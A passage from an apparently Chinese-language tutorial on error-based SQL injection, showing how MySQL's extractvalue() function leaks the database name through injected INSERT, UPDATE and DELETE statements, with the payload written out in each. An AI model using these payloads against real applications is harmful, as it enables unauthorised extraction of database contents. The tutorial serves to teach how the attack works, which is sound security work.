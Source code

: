 ![enter image description here](img/img13_u34_png.jpg)

如果你碰到一个 update 的注入并且想获取当前表的数据的话，可用用双查询，我后面会讲到。

## 0x04 利用 extractvalue()获取数据

* * *

extractvalue()函数也是 MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数。

payload：

```
or extractvalue(1,concat(0x7e,database())) or 
```

Insert：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,database())) or'', 'Nervo'); 
```

![enter image description here](img/img14_u32_png.jpg)

update：

```
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or'' WHERE id=2 and username='Nervo'; 
```

![enter image description here](img/img15_u31_png.jpg)

delete：

```
DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or''; 
```

![enter image description here](img/img16_u34_png.jpg)

提取数据：

同样，在 insert、update、delete 用法一致的时候，我会仅以 insert 为例说明。

获取 newdb 数据库表名：
